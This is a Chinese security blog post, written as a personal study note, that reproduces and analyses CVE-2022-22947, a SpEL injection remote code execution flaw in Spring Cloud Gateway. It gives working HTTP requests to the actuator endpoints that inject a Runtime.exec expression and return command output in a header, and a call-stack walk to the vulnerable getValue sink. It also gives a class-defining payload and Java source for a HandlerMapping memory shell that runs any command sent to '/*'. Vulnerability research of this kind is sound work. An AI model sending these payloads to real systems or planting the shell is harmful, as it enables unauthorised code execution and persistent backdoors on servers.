# CVE-2022-22947 SpringCloud GateWay SpEL RCE - Zh1z3ven - 博客园

> 原文：[`www.cnblogs.com/CoLo/p/16093281.html`](https://www.cnblogs.com/CoLo/p/16093281.html)

# CVE-2022-22947 SpringCloud GateWay SpEL RCE

目录

*   CVE-2022-22947 SpringCloud GateWay SpEL RCE
    *   写在前面
    *   环境准备
    *   漏洞复现
    *   漏洞分析
    *   内存马注入
        *   Payload
        *   HandlerMapping 内存马
    *   漏洞武器化

## 写在前面

学习记录

## 环境准备

IDEA 的话需要下载 Kotlin 插件的，针对于这个环境的话，Kotlin 插件对 IDEA 的版本有要求，比如 IDEA 2020.1.1 的版本就不行，搭环境的时候需要注意下。

```
git clone https://github.com/spring-cloud/spring-cloud-gateway
cd spring-cloud-gateway
git checkout v3.1.0 
```

## 漏洞复现

0x01 添加 filter

```
POST /actuator/gateway/routes/spel HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/：/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: application/json
Content-Length: 325

{
  "id": "spel",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
} 
```



0x02 刷新

```
POST /actuator/gateway/refresh HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: application/x-www-form-urlencoded
Content-Length: 0 
```



0x03 再次访问

```
GET /actuator/gateway/routes/spel HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1 
```


## 漏洞分析

看 diff 和早就爆出的信息，是 SpEL 注入导致的代码执行
[`github.com/spring-cloud/spring-cloud-gateway/commit/337cef276bfd8c59fb421bfe7377a9e19c68fe1e`](https://github.com/spring-cloud/spring-cloud-gateway/commit/337cef276bfd8c59fb421bfe7377a9e19c68fe1e)


修改的文件为：
spring-cloud-gateway-server/src/main/java/org/springframework/cloud/gateway/support/ShortcutConfigurable.java
进去下断点，先放加 filter 的包，再 refresh，回溯下调用栈


sink 点在 getValue 方法中，而该方法有 4 处调用，且均在 ShortcutType 这个枚举类型里


这里有个 shortcutType 方法，会直接调用 ShortcutType.DEFAULT


这点看调用栈中也可以发现，从 normalizeProperties 方法进入后直接调用了 DEFAULT


观察参数，normalizeProperties()方法会传入 this.properties,其中保存了前面添加的 filters agrs 属性中的 name 和 value，最终会将 value 取出传到后续的 SpEL 进行解析执行


再往前回溯就是从 POST refresh 端点到加载这个 filter 的逻辑了，翻看一下调用栈就一目了然了。调用栈如下：

```
getValue:59, ShortcutConfigurable (org.springframework.cloud.gateway.support)
normalize:94, ShortcutConfigurable$ShortcutType$1 (org.springframework.cloud.gateway.support)
normalizeProperties:140, ConfigurationService$ConfigurableBuilder (org.springframework.cloud.gateway.support)
bind:241, ConfigurationService$AbstractBuilder (org.springframework.cloud.gateway.support)
loadGatewayFilters:144, RouteDefinitionRouteLocator (org.springframework.cloud.gateway.route)
getFilters:176, RouteDefinitionRouteLocator (org.springframework.cloud.gateway.route)
convertToRoute:117, RouteDefinitionRouteLocator (org.springframework.cloud.gateway.route)
...
onApplicationEvent:81, CachingRouteLocator (org.springframework.cloud.gateway.route)
onApplicationEvent:40, CachingRouteLocator (org.springframework.cloud.gateway.route)
doInvokeListener:176, SimpleApplicationEventMulticaster (org.springframework.context.event)
invokeListener:169, SimpleApplicationEventMulticaster (org.springframework.context.event)
multicastEvent:143, SimpleApplicationEventMulticaster (org.springframework.context.event)
publishEvent:421, AbstractApplicationContext (org.springframework.context.support)
publishEvent:378, AbstractApplicationContext (org.springframework.context.support)
refresh:96, AbstractGatewayControllerEndpoint (org.springframework.cloud.gateway.actuate)
... 
```

而 payload 中我们构造的 filter 在后面会被封装为 FilterDefinition 对象，而 FilterDefinition 为 RouteDefinition 中的一个属性，RouteDefinition 对象结构大致如下：


到这里第一个 POST 加路由的 payload 的构造以及 refresh 到 sink 点的触发基本就很清晰了，下面正向看一下这个 route 是如何加进去的。
首先看[官方文档](https://cloud.spring.io/spring-cloud-gateway/multi/multi__actuator_api.html)
可以通过 POST 和 DELETE 请求进行添加和删除路由的操作


下断点后跟进查看，POST 传入的是 RouteDefinition 对象


RouteDefinition 类代码如下


其中 filters 对应的模版类代码如下，所以需要有 name 和 args 作为属性


继续往下跟，在 Lambda 表达式里调用了 validateRouteDefinition 方法对当前 filter name 做了检查，判断是否是存在的 filter name，一共有 29 个，其中用 AddResponseHeader 可以帮助构造回显


而关于回显的话，前面 refresh 部分的调试已知了结果会保存在 this.properties 中，那么拿 AddResponseHeader 做回显肯定是能获取 this.properties，下面来看下。
首先定位到 AddResponseHeaderGatewayFilterFactory，其中 apply 方法会把 config 的 name 和 value 属性都添加到 header 中从而创造回显。全局搜索的时候也可以看到很多用此功能来添加 header 头的代码。


而通过 GET 请求 routes/{id}时正好会拿到该命令执行的结果, 这里的话个人感觉是走如下的调用的，


最终在此拿到 filter，回显到 response 里


但实际调试时又有很多不一样的地方，埋坑。

## 内存马注入

### Payload

这里联想到的是 Thymeleaf SSTI 这个洞，因为这两个洞最终都是 SpEL 注入，所以一开始想到的就是 BCEL 去打一个内存马进去，但 BCEL 是有 JDK 版本限制，并不是很通用。在 c0ny1 师傅文章有给出 payload 和新思路，不造轮子了直接学爆。
首先来看 payload

```
#{T(org.springframework.cglib.core.ReflectUtils).defineClass('Memshell',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAA....'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()} 
```

用的是 Spring 中自带的 ReflectUtils 类的 defineClass 方法，主要注意第三个参数也就是 Classloader 的部分：`new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()`
可以简单看下源码，MLet 继承了 URLClassLoader，所以这里通过`new MLet()`来 new 一个新的 ClassLoader 就可以避免 ClassLoader 无法加载相同类名的类

```
public class MLet extends java.net.URLClassLoader
     implements MLetMBean, MBeanRegistration, Externalizable {

     ...
     /**
      * Constructs a new MLet using the default delegation parent ClassLoader.
      */
     public MLet() {
         this(new URL[0]);
     }

     /**
      * Constructs a new MLet for the specified URLs using the default
      * delegation parent ClassLoader.  The URLs will be searched in
      * the order specified for classes and resources after first
      * searching in the parent class loader.
      *
      * @param  urls  The URLs from which to load classes and resources.
      *
      */
     public MLet(URL[] urls) {
         this(urls, true);
     }

     /**
      * Constructs a new MLet for the given URLs. The URLs will be
      * searched in the order specified for classes and resources
      * after first searching in the specified parent class loader.
      * The parent argument will be used as the parent class loader
      * for delegation.
      *
      * @param  urls  The URLs from which to load classes and resources.
      * @param  parent The parent class loader for delegation.
      *
      */
     public MLet(URL[] urls, ClassLoader parent) {
         this(urls, parent, true);
     }

     /**
      * Constructs a new MLet for the specified URLs, parent class
      * loader, and URLStreamHandlerFactory. The parent argument will
      * be used as the parent class loader for delegation. The factory
      * argument will be used as the stream handler factory to obtain
      * protocol handlers when creating new URLs.
      *
      * @param  urls  The URLs from which to load classes and resources.
      * @param  parent The parent class loader for delegation.
      * @param  factory  The URLStreamHandlerFactory to use when creating URLs.
      *
      */
     public MLet(URL[] urls,
                 ClassLoader parent,
                 URLStreamHandlerFactory factory) {
         this(urls, parent, factory, true);
     }

    ...
    ...

     /**
      * Constructs a new MLet for the specified URLs, parent class
      * loader, and URLStreamHandlerFactory. The parent argument will
      * be used as the parent class loader for delegation. The factory
      * argument will be used as the stream handler factory to obtain
      * protocol handlers when creating new URLs.
      *
      * @param  urls  The URLs from which to load classes and resources.
      * @param  parent The parent class loader for delegation.
      * @param  factory  The URLStreamHandlerFactory to use when creating URLs.
      * @param  delegateToCLR  True if, when a class is not found in
      * either the parent ClassLoader or the URLs, the MLet should delegate
      * to its containing MBeanServer's {@link ClassLoaderRepository}.
      *
      */
     public MLet(URL[] urls,
                 ClassLoader parent,
                 URLStreamHandlerFactory factory,
                 boolean delegateToCLR) {
         super(urls, parent, factory);
         init(delegateToCLR);
     } 
```

### HandlerMapping 内存马

而内存马方面的话主要还是 Spring 层，之前我也有写过一篇 Spring 内存马相关的文章，主要是 Interceptor 和 Controller 型的内存马，而 c0ny1 师傅文章中用到的是 RequestMappingHandlerMapping 注册一个与使用@RequestMapping("/*")等效的 HandlerMapping 类型的内存马。
代码：执行命令的逻辑主要还是在`executeCommand`方法中，那么想注入 Behinder3 或者 Godzilla4 的 Memshell 的话改下逻辑，并且需要找到获取 request 对象的姿势。
后记：后面也找到了获取 Request 对象的方法，但是 Webflux+Netty 与普通的 MVC+tomcat 是有区别的，比如 webflux 的 request 对象并不是普通 ssm 项目的 servlethttprequest，也就无法获取 session resposne 这些，同时页面的回显方式也不是直接用类似于 resposne.getWritter().write()这样去构造。所以也没有构造出来 behinder 和 godzilla 的内存马，希望有会的师傅或者遇到类似问题的师傅可以一起讨论交流下。

```
public class SpringRequestMappingMemshell {
    public static String doInject(Object requestMappingHandlerMapping) {
        String msg = "inject-start";
        try {
            Method registerHandlerMethod = requestMappingHandlerMapping.getClass().getDeclaredMethod("registerHandlerMethod", Object.class, Method.class, RequestMappingInfo.class);
            registerHandlerMethod.setAccessible(true);
            Method executeCommand = SpringRequestMappingMemshell.class.getDeclaredMethod("executeCommand", String.class);
            PathPattern pathPattern = new PathPatternParser().parse("/*");
            PatternsRequestCondition patternsRequestCondition = new PatternsRequestCondition(pathPattern);
            RequestMappingInfo requestMappingInfo = new RequestMappingInfo("", patternsRequestCondition, null, null, null, null, null, null);
            registerHandlerMethod.invoke(requestMappingHandlerMapping, new SpringRequestMappingMemshell(), executeCommand, requestMappingInfo);
            msg = "inject-success";
        }catch (Exception e){
            msg = "inject-error";
        }
        return msg;
    }

    public ResponseEntity executeCommand(String cmd) throws IOException {
        String execResult = new Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A").next();
        return new ResponseEntity(execResult, HttpStatus.OK);
    }
} 
```

## 漏洞武器化

丢两张图吧


